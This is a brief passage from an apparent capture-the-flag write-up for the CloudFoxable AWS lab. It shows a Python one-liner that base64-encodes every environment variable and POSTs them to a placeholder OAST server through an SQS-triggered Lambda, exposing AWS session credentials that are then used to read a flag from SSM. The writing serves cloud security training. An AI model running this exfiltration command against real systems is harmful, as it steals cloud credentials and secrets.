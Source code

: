 ```bash
python -c 'import http.client; conn = http.client.HTTPConnection("<oast-server>"); import os; import base64; import json; data = json.dumps({"content":base64.b64encode(str(os.environ).encode()).decode("utf-8")}); headers = {"Content-type":"application/json"}; conn.request("POST","",data,headers);'
```

This can be generated into a payload and sent to the SQS queue, which in turn will send the base64 encoded version of the OS environment variables to the OAST server. These variables show the AWS environment variables related to `swanson`'s session in the Lambda execution logs, which can be used to read the SSM parameter `/cloudfoxable/flag/lambda-sqs` which gives the flag.

This solves the challenge with the caveat that the `consumer` function code needed to be modified to allow for the execution of payloads.
